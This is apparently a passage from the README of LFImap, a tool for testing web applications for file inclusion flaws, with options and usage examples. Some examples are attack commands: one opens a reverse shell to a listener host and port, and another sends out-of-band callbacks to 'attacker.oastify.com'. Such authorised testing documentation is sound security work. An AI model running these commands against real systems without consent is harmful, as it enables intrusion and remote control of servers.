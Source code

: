 ```                  

WORDLIST OPTIONS:
  -wT <path>                Path to wordlist for path traversal modality
  --use-long                Use "src/wordlists/long.txt" wordlist for path traversal modality

OUTPUT OPTIONS:
  --log <file>              Output all requests and responses to specified file

OTHER:
  -v, --verbose             Print more detailed output when performing attacks
  -h, --help                Print this help message

```

### Examples 

#### 1) Utilize all supported attack modules with '-a'.
`python3 lfimap.py -U "http://IP/vuln.php?param=testme" -C "PHPSESSID=XXXXXXXX" -a`  

![LFImap_A](https://github.com/hansmach1ne/LFImap/assets/57464251/7692235a-dfcd-4cab-b0bd-aefdd873cae6)

#### 2) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=testme" -a`

![LFIMAP_POST](https://github.com/hansmach1ne/LFImap/assets/57464251/ebd6b1a4-8990-4a36-b321-871fe9271313)


#### 3) Reverse shell remote command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=testme" -C "PHPSESSID=XXXXXXXX" -a -x --lhost <IP> --lport <PORT>`  

![LFIMAP_revshell](https://github.com/hansmach1ne/LFImap/assets/57464251/5d64244c-8a37-4019-bf2f-8fa7eb6bfd69)



#### 4) Out-of-Band blind vulnerability verbose testing support with '--callback'

`python3 lfimap.py -U "http://IP/index.php?param=testme" -a -v --callback="attacker.oastify.com"`

![LFIMAP_OOB](https://github.com/hansmach1ne/LFImap/assets/57464251/d49d3a80-1c34-49fd-97d8-eb870dae040d)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it, as soon as I can. <br>
Pull requests are welcome.

[!] Disclaimer: LFImap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.

<h1>
RFI Exploiting
</h1>
<p>
